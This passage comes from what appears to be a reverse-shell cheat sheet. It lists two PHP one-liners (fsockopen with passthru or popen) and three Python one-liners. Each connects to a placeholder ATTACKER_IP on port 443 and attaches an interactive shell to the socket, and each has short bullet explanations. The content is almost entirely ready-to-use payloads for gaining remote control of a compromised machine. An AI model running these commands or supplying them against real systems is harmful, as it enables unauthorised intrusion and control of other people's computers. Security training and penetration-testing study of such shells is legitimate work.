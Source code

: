 ### 4. PHP passthru()
```
php -r '$sock=fsockopen("ATTACKER_IP",443);passthru("sh <&3 >&3 2>&3");'
```
- Executes command and sends raw output.  
- Good for binary data.  



### 5. PHP popen()
```
php -r '$sock=fsockopen("ATTACKER_IP",443);popen("sh <&3 >&3 2>&3","r");'
```
- Opens process file pointer using `popen()`.  
- Executes shell via socket.  



# 🐍 Python Reverse Shells

### 1. Using Environment Variables
```
export RHOST="ATTACKER_IP"; export RPORT=443;
python -c 'import sys,socket,os,pty;
s=socket.socket();
s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));
[os.dup2(s.fileno(),fd) for fd in (0,1,2)];
pty.spawn("bash")'
```
- Stores IP/port in variables.  
- Connects to attacker.  
- Duplicates file descriptors → full shell access.  



### 2. Using subprocess Module
```
python -c 'import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("ATTACKER_IP",443));
os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);
import pty; pty.spawn("bash")'
```
- Connects socket.  
- Redirects stdin/stdout/stderr.  
- Spawns interactive shell.  



### 3. Short Python Reverse Shell
```
python -c 'import os,pty,socket;
s=socket.socket();
s.connect(("ATTACKER_IP",443));
[os.dup2(s.fileno(),f) for f in (0,1,2)];
pty.spawn("bash")'
```
- Shorter version.  
- Same logic: socket + redirect + interactive shell.  
